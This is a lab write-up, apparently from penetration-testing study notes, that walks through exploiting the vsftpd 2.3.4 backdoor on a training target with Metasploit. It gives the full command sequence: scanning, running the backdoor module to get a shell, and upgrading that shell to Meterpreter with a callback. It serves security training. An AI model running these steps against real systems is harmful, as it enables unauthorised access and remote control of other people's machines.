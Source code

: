 # 🔬FTP - MSF Exploit

## Lab 1

>  🔬 [Vulnerable FTP Server](https://www.attackdefense.com/challengedetailsnoauth?cid=179)
>
>  - Target IP: `192.80.80.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [vsftpd 2.3.4 - Backdoor Command Execution](https://www.exploit-db.com/exploits/49757)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.80.80.3
setg RHOST 192.80.80.3
workspace -a vsftpd2.3.4
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 192.80.80.3
```

![db_nmap -sS -sV -O 192.80.80.3](.gitbook/assets/image-20230416130726833.png)

```bash
analyze # error
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
info
# Description:
#   This module exploits a malicious backdoor that was added to the 
#   VSFTPD download archive. This backdoor was introduced into the 
#   vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
#   according to the most recent information available. This backdoor 
#   was removed on July 3rd 2011.
options
run
```

```bash
/bin/bash -i
```

![Metasploit - exploit/unix/ftp/vsftpd_234_backdoor](.gitbook/assets/image-20230416131200154.png)

- Shell to `Meterpreter` post exploitation

```bash
background
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 2
set LHOST eth1
run

sessions
sessions 3
```

![](.gitbook/assets/image-20230416131524452.png)

------

